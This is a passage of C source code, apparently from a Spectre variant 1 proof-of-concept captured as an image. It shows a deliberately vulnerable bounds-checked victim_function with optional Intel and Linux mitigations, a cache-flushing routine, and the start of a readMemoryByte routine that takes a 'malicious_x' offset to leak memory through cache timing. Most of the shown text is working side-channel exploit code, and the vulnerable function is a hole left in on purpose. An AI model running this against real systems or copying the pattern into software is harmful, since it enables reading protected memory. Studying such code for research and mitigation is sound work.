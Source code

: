 ``` c
			:"cc");
	return mask;
}
#endif

void victim_function(size_t x) {
  if (x < array1_size) {
#ifdef INTEL_MITIGATION
		/*
		 * According to Intel et al, the best way to mitigate this is to 
		 * add a serializing instruction after the boundary check to force
		 * the retirement of previous instructions before proceeding to 
		 * the read.
		 * See https://newsroom.intel.com/wp-content/uploads/sites/11/2018/01/Intel-Analysis-of-Speculative-Execution-Side-Channels.pdf
		 */
		_mm_lfence();
#endif
#ifdef LINUX_KERNEL_MITIGATION
    x &= array_index_mask_nospec(x, array1_size);
#endif
    temp &= array2[array1[x] * 512];
  }
}


/********************************************************************
Analysis code
********************************************************************/
#ifdef NOCLFLUSH
#define CACHE_FLUSH_ITERATIONS 2048
#define CACHE_FLUSH_STRIDE 4096
uint8_t cache_flush_array[CACHE_FLUSH_STRIDE * CACHE_FLUSH_ITERATIONS];

/* Flush memory using long SSE instructions */
void flush_memory_sse(uint8_t * addr)
{
  float * p = (float *)addr;
  float c = 0.f;
  __m128 i = _mm_setr_ps(c, c, c, c);

  int k, l;
  /* Non-sequential memory addressing by looping through k by l */
  for (k = 0; k < 4; k++)
    for (l = 0; l < 4; l++)
      _mm_stream_ps(&p[(l * 4 + k) * 4], i);
}
#endif

/* Report best guess in value[0] and runner-up in value[1] */
void readMemoryByte(int cache_hit_threshold, size_t malicious_x, uint8_t value[2], int score[2]) {
  static int results[256];
  int tries, i, j, k, mix_i;
  unsigned int junk = 0;
  size_t training_x, x;
  register uint64_t time1, time2;
  volatile uint8_t * addr;

#ifdef NOCLFLUSH
  int junk2 = 0;
  int l;
  (void)junk2;
#endif
```